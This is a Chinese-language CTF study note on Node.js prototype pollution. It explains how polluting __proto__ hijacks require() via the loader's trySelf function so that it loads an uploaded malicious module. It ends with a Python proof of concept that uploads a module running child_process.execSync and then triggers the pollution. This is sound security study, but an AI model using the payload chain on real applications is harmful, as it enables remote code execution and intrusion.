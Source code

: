 tags:: CTF/JS/原型链污染

- [参考](https://blog.csdn.net/Leaf_initial/article/details/131529071#t3)
- # 思路
	- 上传恶意js模块，用原型链污染攻击`require("err.js")`，使其加载恶意JS，最终实现RCE
- # 污染require
	- 注意
		- 对应的模块必须还未被加载，否则会调用缓存内的模块而不是加载我们的恶意文件
	- 原理
		- nodejs在进行require时，其最终会使用`loader`文件中的`trySelf`函数获取最终文件路径
		- 而`trySelf`中，文件路径由这一行的变量决定：
			- ```js
			  const { data: pkg, path: pkgPath } = readPackageScope(parentPath) || {};
			  ```
		- 在本地没有`package.json`时，前面的`readPackageScope`返回`false`，此时我们可以通过后方的`{}`修改`pkg`和`pkgPath`变量，改变最终输出的文件路径
		- 最终输出的文件路径由后面的`packageExportsResolve`决定，输出的路径为我们传入的`pkgPath`目录中的`pkg`文件
			- 注意这里必须让`pkg`以`./`开头
		- trySelf的实现如下：
			- ```js
			  function trySelf(parentPath, request) {
			    if (!parentPath) return false;
			  
			    const { data: pkg, path: pkgPath } = readPackageScope(parentPath) || {};
			    if (!pkg || pkg.exports === undefined) return false;
			    if (typeof pkg.name !== 'string') return false;
			  
			    let expansion;
			    if (request === pkg.name) { // 需要绕过，让此处为true
			      expansion = '.';
			    } else if (StringPrototypeStartsWith(request, `${pkg.name}/`)) {
			      expansion = '.' + StringPrototypeSlice(request, pkg.name.length);
			    } else {
			      return false;
			    }
			  
			    try {
			      return finalizeEsmResolution(packageExportsResolve(
			        pathToFileURL(pkgPath + '/package.json'), expansion, pkg,
			        pathToFileURL(parentPath), cjsConditions), parentPath, pkgPath);
			    } catch (e) {
			      if (e.code === 'ERR_MODULE_NOT_FOUND')
			        throw createEsmNotFoundErr(request, pkgPath + '/package.json');
			      throw e;
			    }
			  }
			  ```
	- 最终的payload如下：
		- ```python
		  payload = {
		      "__proto__": {
		          "data": {
		            "name": "./err.js", # 必须和require的参数相同
		            "exports": "./" + name # 我们的目标文件，必须以./开头
		          },
		          "path": "/app/upload", # 目标文件所在的路径
		      }
		  }
		  ```
- # PoC
	- ```python
	  payload = """
	  obj={
	      getRandomErr:() => {
	          return require("child_process").execSync("cat /flag").toString();
	      }
	  }
	  console.log("恶意文件来了啵")
	  
	  module.exports = obj
	  """
	  
	  r = base_post(url + "/upload", files={"file": ("a.js", payload)})
	  print(r.text)
	  name = r.json()["url"].rpartition("/")[2]
	  print(name)
	  
	  payload = {
	      "__proto__": {
	          "data": {"name": "./err.js", "exports": "./{}".format(name)},
	          "path": "/app/upload",
	      }
	  }
	  
	  r = base_post(url + "/pollution", json=payload)
	  
	  print(r.text)
	  
	  r = base_post(url + "/upload")
	  print(r.text)
	  ```